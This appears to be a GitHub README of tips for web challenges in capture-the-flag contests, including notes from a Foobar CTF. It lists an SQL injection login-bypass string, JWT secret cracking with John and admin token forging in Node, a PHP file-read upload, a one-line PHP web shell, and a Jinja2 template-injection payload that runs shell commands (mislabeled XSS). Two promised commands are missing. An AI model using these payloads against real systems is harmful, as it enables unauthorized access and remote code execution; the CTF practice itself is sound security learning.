


# WEB CHALLENGES

## Useful Tips And Resource

1. Use ```dirb``` to find out some directories we can view.
2. Useful SQLi -> ``` admin';--``` (works most of the time)
3. See for Template Injection by ```{{4+4}}``` if it shows 8 , then it's a SSTL.
4. [File Upload Bypass](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass) 
5. [Web Exploits](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application)
6. [Pen Testing Handbook](https://blueteamdope.gitbook.io/penetration-testing-playbook/)
7. If you Find SSTI use ```{{config}}```
8. ZipSlip Vuln [SRC](https://snyk.io/research/zip-slip-vulnerability)
9. Command For using symlink and then upload -> 
    
10. Another type of zip vuln -> 
    

<hr>

### Foobar CTF

1. If JWT is given , try to see it via [JWT](https://jwt.io/) . Now we need a valid and secret signature to crack it. One way to do it is via John . <code> john --wordlist=/home/luc/Pobrane/rockyou.txt --format=HMAC-SHA256 jwt.txt </code> and then <code> john --show jwt.txt </code> Now you are good to go .
Code For Node ->
    ```js
    $ node 
    > const jwt = require('jsonwebtoken')
    > var token = jwt.sign({ 'user': 'admin' },'badboy', { algorithm:'HS256',noTimestamp:true});
    > console.log(token) 
    ```

2. There was a server side template injection problem . You can refer to [SSTI](https://szymanski.ninja/en/ctfwriteups/2021/foobar/lotion/) for details.

3. If you get upload vulnreability try to upload this php code 
    ```php
        <?php
        $filestring = file_get_contents('/home/user/flag/flag.txt');
        print $filestring;
        ?> 
    ```
4. Or you can try 
    ```php
    <?php system($_GET['cmd']); ?>
    ```
5. XSS Vuln -> ```{{config|attr('__class__')|attr('__init__')|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('ls')|attr('read')()}}```